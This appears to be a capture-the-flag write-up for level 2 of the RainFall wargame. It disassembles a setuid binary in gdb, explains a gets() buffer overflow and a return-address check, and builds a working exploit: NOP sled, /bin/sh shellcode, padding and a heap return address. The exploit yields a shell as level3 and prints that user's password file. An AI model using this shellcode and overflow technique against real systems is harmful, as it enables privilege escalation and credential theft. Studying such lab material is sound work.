 # Level 2

- We login as user level2:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level2/level2
```

```
level2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2

level2@RainFall:~$ gdb level2
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
```

```
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
   0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```


- Let's identify the calls and jump:
```
   0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
```
>`0x8049860 <stdout@@GLIBC_2.0>: 0xb7fd1a20`
>Call `<fflush@plt>`.


```
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
```
>buffer starts at `-0x4c(%ebp)`
>Prompt the user without imposing any input size limit.


```
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
```
>`0x4(%ebp) --> 0xbffff70c`
>`0xbffff70c:     0x0804854a`
>`saved eip 0x804854a`
>After receiving the input, if the return address of the function starts with `0xb`, we will call `<printf@plt>` and then `<_exit@plt>`. Otherwise, we jump to `<puts@plt>`.


```
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
```
>`0x8048620: "(%p)\n"`
>`-0xc(%ebp) --> 0xbffff70c`
>`0xbffff70c:     0x0804854a`
>`saved eip 0x804854a`
>Print the function return address.


```
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
```
>Call `exit(1)`


```
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
```
>buffer starts at `-0x4c(%ebp)`
>Print the buffer


```
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
```
>buffer starts at `-0x4c(%ebp)`
>Cpy the buffer into the heap.


- To redirect the program's execution flow, the function must `return`, so we must avoid `<_exit@plt>`.


- We are looking to replace the return address of the function with an address that contains our shellcode. However, we cannot store our shellcode in the environment or in the stack of the `p()` function because these addresses all start with `0xb`.
```
(gdb) info reg
...
esp            0xbffff6a0       0xbffff6a0
ebp            0xbffff708       0xbffff708
...
```

```
(gdb) x/3s *(char**)environ
0xbffff8f5:      "SHELLCODE=1\322Rh//shh/bin\211\343\061\300\260\v̀"
0xbffff915:      "TERM=xterm-256color"
0xbffff929:      "SHELL=/bin/bash"
```


- `0xc0000000` to `0xffffffff` is reserved for the kernel, attempting to access it would result in a segmentation fault.


- So, we need a way to write our shellcode into much lower addresses, such as in the heap at the memory address returned by `<strdup@plt>`.
```
(gdb) b*0x0804853d
Breakpoint 1 at 0x804853d
```

```
(gdb) r < <(echo 123)
...
Breakpoint 1, 0x08048538 in p ()

(gdb) x/s $eax
0x804a008:      "123"
```


- The input should thus be in the form of `(NOP's) + SHELLCODE + (FILLER) + \x08\xa0\x04\x08`. The question now is how many characters are needed for the return address of the `p()` function to start being overwritten. It can be done quickly using a tool like [Metasploit](https://en.wikipedia.org/wiki/Metasploit).


- The return address is found to be replaced after the 80th character. We would be tempted to do this:
```
(gdb) r < <(python -c "print '\x90'*53 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + '\x08\xa0\x04\x08'"; cat)
```


- However, we would have an issue because of this:
```
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
```


- Indeed, this part of the code copies the return address value from the function a little further down in the stack. This would have the effect of overwriting a portion of our shellcode. Therefore, we must leave a small space, precisely 16 bytes:
```
level2@RainFall:~$ (python -c "print '\x90'*37 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*16 + '\x08\xa0\x04\x08'"; cat) | ./level2
...
whoami
level3

cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```